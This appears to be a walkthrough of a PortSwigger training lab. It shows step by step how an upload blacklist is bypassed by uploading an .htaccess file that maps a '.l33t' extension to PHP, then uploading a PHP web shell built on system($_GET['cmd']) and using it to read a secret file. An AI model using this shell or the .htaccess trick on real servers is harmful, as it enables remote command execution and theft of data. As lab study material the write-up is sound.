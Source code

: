 

# Web shell upload via extension blacklist bypass

This lab contains a vulnerable image upload function. Certain file extensions are blacklisted, but this defense can be bypassed due to a fundamental flaw in the configuration of this blacklist.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter

Hint: You need to upload two different files to solve this lab.

---------------------------------------------

References: 

- https://portswigger.net/web-security/file-upload

---------------------------------------------

New .htaccess file:

```
-----------------------------230880832739977645353483474501
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: application/octet-stream

AddType application/x-httpd-php .l33t
```

![img](images/Web%20shell%20upload%20via%20extension%20blacklist%20bypass/1.png)
![img](images/Web%20shell%20upload%20via%20extension%20blacklist%20bypass/2.png)



Upload Phpinfo file:

```
-----------------------------230880832739977645353483474501
Content-Disposition: form-data; name="avatar"; filename="test.l33t"
Content-Type: application/octet-stream

<?php phpinfo(); ?>
```

![img](images/Web%20shell%20upload%20via%20extension%20blacklist%20bypass/3.png)
![img](images/Web%20shell%20upload%20via%20extension%20blacklist%20bypass/4.png)


Upload cmdshell:

```
-----------------------------230880832739977645353483474501
Content-Disposition: form-data; name="avatar"; filename="cmd.l33t"
Content-Type: application/octet-stream

<?php
if($_GET['cmd']) {
  system($_GET['cmd']);
}
```
```
https://0a6000ce04de65cfc3e8c5ac00d700ed.web-security-academy.net/files/avatars/cmd.l33t?cmd=whoami
```

![img](images/Web%20shell%20upload%20via%20extension%20blacklist%20bypass/5.png)
![img](images/Web%20shell%20upload%20via%20extension%20blacklist%20bypass/6.png)


Read the file:

```
https://0a6000ce04de65cfc3e8c5ac00d700ed.web-security-academy.net/files/avatars/cmd.l33t?cmd=cat%20/home/carlos/secret
```

MzrfsTWgFr82UcKq9wFC0hObV7YSVmlq

![img](images/Web%20shell%20upload%20via%20extension%20blacklist%20bypass/7.png)

